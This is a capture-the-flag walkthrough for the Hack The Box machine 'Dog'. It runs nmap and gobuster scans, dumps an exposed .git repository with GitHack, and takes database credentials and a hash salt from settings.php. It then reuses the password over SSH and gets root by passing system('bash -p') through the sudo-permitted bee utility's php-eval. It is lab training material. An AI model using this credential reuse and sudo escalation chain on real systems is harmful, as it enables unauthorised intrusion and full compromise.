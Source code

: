 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.58
```

![image](images/20250310193559.png)

Go to the site

![image](images/20250310193656.png)

Use `gobuster` to search directories
```bash
gobuster dir -u http://10.10.11.58/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

![image](images/20250310200600.png)

Go to the `/files` directory

![image](images/20250310200022.png)

`README` says that this directory is used to store downloaded files.

Let's try to find `.git` in the site directories

![image](images/20250312191944.png)

Using the `GitHack` tool, download the entire project. You can download it [here](https://github.com/lijiejie/GitHack)
```bash
python GitHack.py http://dog.htb/.git/
```

![image](images/20250312193027.png)


![image](images/20250312193043.png)

Let's see the interesting contents of the files.
`settings.php`:
```PHP
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```
Getting the password from the database and possibly from some user
```Password
BackDropJ2024DS2024
```
Finding (not yet) the user `johncusack`. Let's try to connect to it via `SSH` using the previous password
```bash
ssh johncusack@10.10.11.58
```

![image](images/20250312202224.png)

First flag found
```flag
f13a75dfbe946b65f1012d30f28a6a05
```
Let's see what `sudo` commands this user can execute
```bash
sudo -l
```

![image](images/20250312210610.png)

**`/usr/local/bin/bee`** - utility for managing `Backdrop CMS`
Let's rustle this utility
```bash
sudo /usr/local/bin/bee
```

![image](images/20250312211607.png)


![image](images/20250312213031.png)

The instructions for using this utility are displayed. Of interest here are the flags `--root`, which specifies the root directory of `Backdrop` (most likely `/var/www/html`), and `php-eval`, which allows you to execute arbitrary PHP code. Since this script runs as `root`, we can inject a shell into the command and gain access to `root`
```bash
sudo /usr/local/bin/bee --root=/var/www/html php-eval 'system("bash -p");'
```
, where **`system()`** is a PHP function for executing shell commands, **`bash -p`** is the `-p` flag that preserves privileges.

![image](images/20250312212122.png)

```flag
b123db2203d8c50d3b89f43169f50037
```
<div style="page-break-after: always;"></div>

> [!info] Note
> Specifying /var/www/html helped the bee utility:
1 Find Backdrop CMS files
2 Fully initialize your environment (bootstrap)

